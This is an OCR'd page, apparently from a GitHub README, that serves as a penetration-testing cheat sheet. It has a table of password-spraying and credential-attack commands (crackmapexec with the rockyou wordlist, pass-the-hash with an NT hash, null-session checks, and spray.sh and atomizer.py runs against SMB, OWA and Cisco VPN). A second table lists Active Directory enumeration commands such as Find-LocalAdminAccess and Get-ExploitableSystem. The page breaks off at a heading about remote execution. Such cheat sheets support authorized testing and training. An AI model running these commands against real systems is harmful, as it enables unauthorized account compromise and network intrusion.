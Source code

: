 

|  Password Spraying Attack |
| ------------- |
| crackmapexec smb 192.168.1.1  -d ninja.corp -u MeME -P /usr/share/wordlists/rockyou.txt|
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| crackmapexec smb 192.168.1.1 -u MeMe -H NTHASH |
|crackmapexec smb 192.168.1.1 -u '' -p '' #NULL Sessions|
|spray.sh -smb 192.168.1.1 users.txt /usr/share/wordlists/rockyou.txt  1 35 ninja.corp|
|spray.sh -owa 192.168.1.1 users.txt  /usr/share/wordlists/rockyou.txt   1 35 Request.body #OWA|
|spray.sh -ciso 192.168.1.1 usernames.txt /usr/share/wordlists/rockyou.txt 1 35 #CISCO Web VPN|
|./atomizer.py owa contoso.com 'Fall2018' emails.txt|


### Active Directory Enumeration 

|Active Directory Enumeration | for Example |
| ------------- | ------------- |
| [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain() | current domain info|
| ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships() | domain trusts|
| [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest() | current forest info|
| Get-NetDomain | gets the name of the current user's domain|
| Get-NetForest | gets the forest associated with the current user's domain|
| Get-NetForestDomain | gets all domains for the current forest|
| Get-NetDomainController | gets the domain controllers for the current computer's domain|
| Get-NetComputer | gets a list of all current servers in the domain|
| Get-NetDomainTrust  | gets all trusts for the current user's domain|
| Get-NetForestTrust |  gets all trusts for the forest associated with the current user's domain|
| Find-LocalAdminAccess | finds machines on the domain that the current user has local admin access to|
| Get-ExploitableSystem |  finds systems likely vulnerable to common exploits|
| Get-ObjectAcl | returns the ACLs associated with a specific active directory object|
| Get-DomainSID | return the SID for the specified domain|
| Get-NetFileServer | get a list of file servers used by current domain users|


### Commands Execute Remotely using Both Plaintext and NTLM
